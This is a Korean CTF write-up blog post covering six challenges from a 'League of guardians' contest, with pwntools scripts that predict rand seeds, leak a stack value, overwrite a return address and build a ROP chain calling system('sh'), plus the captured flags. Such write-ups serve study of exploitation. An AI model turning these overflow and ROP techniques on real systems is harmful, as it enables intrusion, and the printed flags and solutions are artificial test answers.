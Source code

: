 ```yaml
---
layout: post
title: League of guardians 1차전 write-up
---
```






사이버 가디언즈 1차전에서 푼  풀이이다.




Randomgame1(misc) 
-
 nc로 접속하면 가위바위보를 한다. 바이너리를 아이다로 까보면 rand로 값을 만들고 win을 9번보다 많이 해야한다. 고로 다 이기면 된다. rand값을 이길려면 어쩌지 생각하다가 시드가 일정시간마다 바뀌는 것을 알았다. 

그래서 동시간에 세션을 2개 열어놓고 첫 번째 세션에서 나온 값을 토대로 win을 하기 위한 경우를 파악한 뒤 다 이겨주면 flag를 얻을 수 있다.

`solve.py`
```python
from pwn import *

s = remote("52.79.210.195",9292)
s2 = remote("52.79.210.195",9292)

win_list = []

for i in range(0,10):
	s.sendlineafter(": ", "1")
	result=s.recvline()
	if result == "You win!\n":
		win_list.append("1")
	elif result == "You lose!\n":
		win_list.append("2")
	else: win_list.append("3")

for i in range(0,10):
	s2.sendlineafter(": ",win_list[i])
	s2.recvuntil("You win!\n\n")

log.success(s2.recvline())
```
`flag{YoU_R_V3ry_Lucky_GUY!@#$}`

**![](https://lh5.googleusercontent.com/q7EduuOmhIZLizW0dxuKq0uCN87HIR5eL-UReD_OeUHvCioHfmWVEi64-rKsEInR7jV_0-3upmmj69W7dfZhlwWtXUVd_F3erutuJAx1nO_8AisjZA2ve28LFvx6HN_XsGPiGGRz)**

pang(misc)
-
이 문제는 그냥 pwntool이나 파이썬 소켓을 이용하면 풀리는 문제이다. random1 값이 나온 것을 그대로 입력하고 random2 나온 값을 input2로  또 입력하고 str(int(ran2[0].encode("hex"),16) * ran1)한 값을 input3에 입력하면 플래그가 나온다.

`solve.py`
```python
from pwn import *

s = remote("52.79.210.195",13001)

s.recvuntil('ran1 : ')
ran1=str(s.recv(14))
s.recvuntil('input random!\n\n')
s.sendline(ran1)
s.recvuntil('ran2 : ')
ran2=str(s.recv(20))
s.recvuntil('input random2!\n\n')
s.sendline(ran2)

s.recv()
input3=str(int(ran2[0].encode("hex"),16) * float(ran1))[:14]
log.info(input3)
s.sendline(input3)
s.interactive()
```


Randomgame2(pwn)
-
Randomgame1과 같은 방법이지만 조금 pwnable적 지식이 더해져서 pwn으로 나왔다. 바이너리를 아이다로 까보면

**![](https://lh5.googleusercontent.com/t4wJeY9EiKzl3YFpCRix7_HWC0wnye0IE96gTPJVch8D8CSFs3NyspajrYQc1drG3CiLZGwMlSmwDq5SpVv963f6F_wcKKu44Cpq1ZCe8EE_X4fRanBVvuaFRSTYYGuSbC-QE56j)** 

게임을 지면 --v8가 되고 이기면 ++v8이 된다. 그리고 v8 > v10(-3으로 초기화 되어있음)이면 cat flag를 해준다. 
하지만 여기서 핵심은 v8은 

**![](https://lh4.googleusercontent.com/oFO3vrLSeIoV5tgF7EjlooK_zY9vH2ElowMnlfSWm4XJw-V3tkgGtycSckMjsWGHynyHVPk6k0m3QPAcGr85hSJGnWm-8U6KV2FOFNHU4biXKyVokg5Li0MFAWdSrhI47JMG9Yev)**

unsigned로 선언 되어있다. 음수를 포함하지 않는다. 따라서 첫 바이트가 음과 양을 판단하기 때문에 -3보다 클려면 -4, -5, -6이렇게 되어야 한다. 따라서 가위바위보 게임에서 다 지면 된다. 

```python
from pwn import *

s = remote("52.78.156.241",4885)
s2 = remote("52.78.156.241",4885)

lose_list = []

for i in range(0,11):
	s.sendlineafter(": ", "1")
	result=s.recvline()
	if result == "You win!\n":
		lose_list.append("3")
	elif result == "You lose!\n":
		lose_list.append("1")
	else: lose_list.append("2")

for i in range(0,11):
	s2.sendlineafter(": ",lose_list[i])
	s2.recvuntil("You lose!\n\n")

log.success(s2.recvline())
```
`flag{ThATs_t0o_BAd_y0u_R_s0_uNLucky!@#$}`

**![](https://lh3.googleusercontent.com/7SUlNCZ93Hj9bvbLftWzme1NhVaCWPgoRAcEbU2e4Lb7cJ1frwL3_St_vsTLH15RppMzlnq52zRVSPSshjr4LHkgdJ4mgE3nUxVrPpfAAs_ZbhupBhY_y68HjEdL7wsSb2SGV2Bi)**

guess(pwn)
-
elf 64bit 문제이다. 


**![](https://lh3.googleusercontent.com/vLiNCMdRejXRccUGYdu-8wsoUoOwnK0SWHPXxZDu28rnUE2zjfhZSBb_ghvaB6FskO9avRGvb274SMLYY23pXAfU3T4ip7wU1RfKkt_sUsHfixc9CXhUrRIfAMP0Z6fUdYg1UsMd)**


메모리 보호 기법은 이러하다.

**![](https://lh6.googleusercontent.com/PnE3-7HHBpG7k0CXH9gVTRmSetQAXWkrXJtkBtr-oMxqnl1kT32zIrWklVPbldhjPNWQgle29iQzuTY2yguiAKBewCy3FpMiNFvdd82d_LRRpbiSgAxshY1M7lil3iYT5Ir2-q_S)**


바이너리를 까보면 v6이라는 변수에 rand값을 넣어준다. 그리고 그 값이 입력받는 값과 같으면 system("/bin/sh")을 실행해준다. buf의 위치는 rbp-0x20, v6변수의 위치는 rbp-0x10이다. buf의 주소부터 0x1E만큼 입력을 받을 수 있으니 오버플로우를 통해 "Nice to meet you %s"에서 v6(rand)값을 leak할 수 있다.


`exploit.py`
```python
from pwn import *

s = process("./guess")
#context.log_level = 'debug'
s.recvuntil('Tell me your name')

payload = "A"*15

s.sendline(payload)
s.recvuntil("A"*15+"\n")
leak=int(u32(s.recv(4)))
print (leak)
s.recvuntil('Okay, can you guess the random number?\n')
s.send(str(leak))
s.interactive()
```


yourNAME(pwn)
-
elf 64bit 문제이다.

**![](https://lh4.googleusercontent.com/QvNUncstkqYiV7rw434ww0lgtrL8sa70f1luprMjugK3bUrT7I5kpz-y2uaSqtd1ux-cWPdKruMs3UHs-75YdYanzwpueu8Nc7PPyX_fMzpO2Bl4k67-wI1_mOZ3wmYX16f77zAr)**

메모리 보호기법은 이러하다.


**![](https://lh6.googleusercontent.com/SCTbr3vyc1Sj1taF7wT8M9qhswYgo0aYVorKvjPHgK17Z8En912wM4w5YkuP3lRdmI1p-h09nB6Au7VrUorucXK1MSRREuRPaDKfwqWniISEX98OnIMEFZ0_Pd-I_Tl9yAEE3b3a)**


scanf에서 overflow가 발생한다. 그리고 바이너리를 잘 보면,


**![](https://lh5.googleusercontent.com/Ci3PNYMGNgRajSF1XWTosYk25c9Mwy1LUL55v6oIOdcPVYEniya88Q14oFAdsIUXhMtfsLt_8caOcKvAOa9tVauDj9NSpX6bEzvC2F4EYKE9uDQM73D4l8V67ISUVZd2B3i5-eYg)**

이런 함수가 있다. 위에 if문 무시하고

**![](https://lh6.googleusercontent.com/05KfovEsbj5EtXQcKq5sLQ2e4QbGoCVrWsVnF6bmeWghbTsdsewz0GbKjjsPZwIFr7okjByOfCWdD62Xvb5FprurEHQKopHy6UpwSuyWwxX-MgGQlO5uq-ARB19d3a8iN8IYtM9o)**

이 주소만 쓱싹해서 ret에 박으면 된다. 

`exploit.py`
```python
from pwn import *

s = remote("52.78.156.241",14191)
context.log_level = 'debug'

pr = 0x004008c3
binsh = 0x004008F0
payload = "A"*40
payload += p64(0x400788) #oneshot

s.sendlineafter('What your name?\n',payload)
s.interactive()
```

dance(pwn)
-
elf 64bit이다. 

**![](https://lh3.googleusercontent.com/zqGxI6OzffXPvUUKKCcoj2K6pkDZWdDEaS2-jsrGwyY4fAx98GCxerYp3DPCDaS31beGovx_rDGosIEbI7yqZe_eU7kk3SUgAnI4MKtU5_c-iMSFO8Efyz51DSkgaYh-l_Bf-6Xz)**

NX가 활성화 되어있다. 

아이다로 분석하면, 1번 메뉴나 2번 메뉴 scanf에서 overflow가 가능하다. 그리고 welldone 함수에서 system함수가 사용되었다.

 ROP할 때 system인자로 넘겨 줄 /bin/sh가젯은  바이너리 안에 있는 심볼인 fflush의 뒤에 sh부분만 사용하면 된다. 그리고 prdi 가젯을 사용하면 안 되고, gadget()에 있는 pop rdi, pop rbp, ret을 사용해야 한다. 

`exploit.py`
```python
from pwn import *

s = process("./dance")

sh = 0x40046f
pprdi = 0x4008fa
system = 0x400760

s.recvuntil("4. exit\n")
s.sendline("1")
s.recvuntil("!\n")

payload = "wellwell"
payload += "A"*64
payload += p64(pprdi)
payload += p64(sh)
payload += p64(0)
payload += p64(system)

s.sendline(payload)
s.interactive()
```
